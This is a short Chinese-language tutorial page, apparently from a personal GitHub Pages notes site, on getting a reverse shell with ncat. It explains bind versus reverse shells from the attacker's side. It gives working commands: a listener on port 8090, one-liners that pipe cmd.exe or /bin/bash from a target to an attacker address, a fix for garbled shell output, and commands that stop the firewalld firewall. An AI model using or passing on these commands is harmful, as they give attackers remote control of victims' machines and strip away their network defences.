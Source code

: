 ```yaml
---
layout: default
title: 通过ncat工具getshell
---
```


# 基本理论

1.

> * 访问分为<mark>服务端和客户端</mark>
> 
> * 服务端是有公网IP的端、客户端是不需要公网IP的端
> 
> * 连接由客户端发起，服务端等待连接

2.

> * shell分为<mark>正向shell和反向shell</mark>
> 
> * 正向shell是我的shell整到目标主机上去，没啥用，难道让目标来远控我？
> 
> * 反向shell是目标的shell整到我这来，这才有用呢

3.

> * 连接分服务端和客户端
> 
> * 渗透行为分我们和目标
> 
> * ncat只能把客户端的shell反弹到服务端
> 
> * 也就是说，<mark>使用ncat反弹shell时，目标只能是客户端，我们必须是服务端</mark>
> 
> * 我们服务端要有公网IP



# 把自己的端口发出去，等待连接

```batch
ncat -lvvp 8090
rem l listening
rem v verbose
rem v version
rem p port
rem bash也是同样的命令
```

# 目标作为客户端，主动连接我们

## windows

```batch
ncat --exec c:\windows\system32\cmd.exe 172.20.0.1 8090
rem 执行cmd.exe 并发到攻击者主机上去
```

## linux

```bash
ncat --exec /bin/bash 172.20.0.1 8090
# 执行bash，发到攻击者主机上去
```

# 解决getshell乱码

## windows

```batch
chcp 65001
rem 改为utf-8
rem change code page
```

## linux xshell改编码

> * 点击上方小地球

# 关闭firewalld防火墙

```bash
systemctl status firewalld.service # 1
systemctl stop firewalld.service # 2
```
